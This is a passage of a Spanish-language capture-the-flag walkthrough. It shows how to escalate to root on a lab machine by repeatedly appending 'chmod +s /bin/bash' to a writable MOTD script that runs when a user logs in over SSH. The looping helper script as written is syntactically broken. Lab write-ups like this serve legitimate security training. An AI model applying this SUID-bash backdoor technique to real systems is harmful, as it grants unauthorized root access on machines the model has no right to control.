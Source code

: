 ```bash
-rwxrwxr-x  1 root sysadmin  604 May  4 08:06 80-esm
-rwxrwxr-x  1 root sysadmin  299 May  4 08:06 91-release-upgrade
```
Al ver el contenido de 00-header me doy cuenta que es un archivo interesante.
```bash
$ cat 00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
```
Ejecuta un `echo "\nWelcome to xh4H land \n"`. Si estamos atentos veremos que al iniciar una conexion ssh nos ejecuta lo mismo. Por lo que podemos suponer que cada vez que nos conectamos a ssh nos ejecutara este archivo. Entonces introducire lo siguiente al archivo.
```bash
$ echo "chmod +s /bin/bash" >> 00-header
$ echo "chmod +s /bin/bash" >> 00-header
$ echo "chmod +s /bin/bash" >> 00-header
$ echo "chmod +s /bin/bash" >> 00-header
$ echo "chmod +s /bin/bash" >> 00-header
```
En mi caso tuve que hacerlo algunas veces, esto es debido a que hay un cron job que esta actualizando el archivo cada pocos segundos. Lo mejor para esto seria crear un script en bash en un ciclo `While` para que este se ejecute cada poco como el siguiente.
```bash
#!/bin/bash
While True:
    do
     echo "chmod +s /bin/bash" >> /etc/update-motd.d/00-header
    done
``` 
Este script lo creamos en tmp y lo ejecutamos mientras en otra ventana entramos varias veces a la maquina a traves ssh y hacemos un ls -la /bin/bash hasta que encontremos el permiso s en el binario.
```bash
ssh sysadmin@10.129.193.96
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 


```